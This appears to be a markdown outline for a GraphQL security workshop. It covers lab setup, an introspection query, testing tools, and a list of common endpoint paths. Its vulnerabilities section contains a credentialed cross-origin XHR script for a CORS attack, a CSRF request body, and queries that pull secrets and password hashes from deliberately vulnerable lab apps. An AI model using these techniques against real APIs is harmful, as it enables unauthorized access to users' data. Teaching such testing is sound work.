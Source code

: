 #### GraphQL
1. What is GraphQL?
2. Graphiql. Query examples.
	
	```
	git clone https://bitbucket.org/igorblum/graphql-mongodb-example.git
	cd graphql-mongodb-example
	docker-compose build
	docker-compose up
	```
	
	[https://medium.com/the-ideal-system/graphql-and-mongodb-a-quick-example-34643e637e49](https://medium.com/the-ideal-system/graphql-and-mongodb-a-quick-example-34643e637e49)
	
3. Introspection [https://graphql.org/learn/introspection/](https://graphql.org/learn/introspection/)
	
	```
	query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        args {\n          ...InputValue\n        }\n        locations\n      }\n    }\n  }\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n        }\n      }\n    }\n  }\n

	```

4. Tools.
	- [GraphQL Raider](https://portswigger.net/bappstore/4841f0d78a554ca381c65b26d48207e6)
	- GraphGL Voyager
	
		```
		git clone --recursive https://bitbucket.org/igorblum/graphql-voyager-docker.git
		cd graphql-voyager
		docker build -t graphql-voyager .
		docker run --rm -p 9090:80 graphql-voyager
		```
		
	- graphqlschema2payload

		```
		git clone https://bitbucket.org/igorblum/graphqlschema2payload.git
		docker build -t graphqlschema2payload .
		docker run --rm -e http_proxy=http://host.docker.internal:8080 -e NODE_TLS_REJECT_UNAUTHORIZED=0 -p 4000:4000 graphqlschema2payload
		***OR for Linux ***
		docker network inspect bridge|grep Gateway
		docker run --rm -e http_proxy=http://172.17.0.1:8080 -e NODE_TLS_REJECT_UNAUTHORIZED=0 -p 4000:4000 graphqlschema2payload
		```

5. Vulnerabilities.
	- graphql-mongodb-example:
		- CORS. [https://jsfiddle.net/](https://jsfiddle.net/)
		
			```
				<script type="text/javascript">
			  		do_post = function(){
				    var xhr = new XMLHttpRequest();
				    var url = "http://192.168.1.130:3001/graphql?";
				    xhr.open("POST", url);
				    xhr.withCredentials = true;
				    xhr.setRequestHeader("Content-Type", "application/json");
				    var jsn = {"variables": { },
				        "query": "query {\n  posts {\n    _id\n    title\n    content\n  }\n}"};
				
				    xhr.send(JSON.stringify(jsn));
				
				    xhr.onreadystatechange = function() {
				      if (this.readyState === this.DONE) {
				          alert(this.responseText);
				          document.write(this.responseText);
				      }
				    };
				
				  }
				
				  do_post();
				</script>
			```
			
		- CSRF
		
			``` 
			Content-Type: application/x-www-form-urlencoded
			...
			
			query=query+{+posts{+_id%0atitle%0a+content+}}&variables=
			```
			
	- Vulnerable application:
	
		```
		git clone https://bitbucket.org/igorblum/poc-graphql.git
		cd poc-graphql
		docker build -t graphql-poc-app .
		docker run --rm -p 8888:8888 graphql-poc-app
		```
	- graphql-mongodb-example: NoSQL.
		```
		query Query($pass: JSON!){
		  secrets(password: $pass){
		    title
		    password
		  }
		}
		```
		
		Variables:
		
		```
		{
		  "pass": "1e61f2f066980ba2b6aa13f47fd6360a"
		}
		```
	- graphcool
		- init & deploy
		
			```
			graphcool init test
			graphcool deploy
			```
		- Deployed versions:
		
			access-control:
			
			- Simple API: [https://api.graph.cool/simple/v1/ck1bsqacv40zj01477jbktt1h](https://api.graph.cool/simple/v1/ck1bsqacv40zj01477jbktt1h)
			- Relay API: [https://api.graph.cool/relay/v1/ck1bsqacv40zj01477jbktt1h](https://api.graph.cool/relay/v1/ck1bsqacv40zj01477jbktt1h)
			- Subscriptions API: [wss://subscriptions.graph.cool/v1/ck1bsqacv40zj01477jbktt1h](wss://subscriptions.graph.cool/v1/ck1bsqacv40zj01477jbktt1h)
			
			no-restrictions:
			
			- Simple API: [https://api.graph.cool/simple/v1/ck1bwr13955z601234cx7pl3p](https://api.graph.cool/simple/v1/ck1bwr13955z601234cx7pl3p)
			- Relay API: [https://api.graph.cool/relay/v1/ck1bwr13955z601234cx7pl3p](https://api.graph.cool/relay/v1/ck1bwr13955z601234cx7pl3p)
			- Subscriptions API: [wss://subscriptions.graph.cool/v1/ck1bwr13955z601234cx7pl3p](wss://subscriptions.graph.cool/v1/ck1bwr13955z601234cx7pl3p)
			
		- Queries:
		
		```
		mutation createUser($name: String, $password: String, $dob: DateTime){
		  createUser(name:$name, password:$password, dateOfBirth:$dob){
		    name
		    dateOfBirth
		  }
		}
		
		Variables:
		{
		  "name":"owasp",
		  "password": "$2y$12$a0ZyWgVfEC3GMBoAuj3Fb.UAUn3f2bSOu8mbcEDJsiIfE/sSjZ6bO",
		  "dob": "1985-01-01"
		}
		
		
		
		query allUsers($filter: UserFilter){
		  allUsers(filter:$filter){
		    name,
		    dateOfBirth,
		    password
		  }
		}
		
		Variables:
		{
		  "filter": {
		    "name": "owasp"
		  }
	    }
		```
		
	- [http://ctf.hacker101.com/](http://ctf.hacker101.com/) - BugDB v1 & BugDB v2

6. List

	```
	/graphql
	/graphqlBatch
	/graphql.php
	/graphiql
	/graphql/console/
	/graphql.php?debug= 1
	```
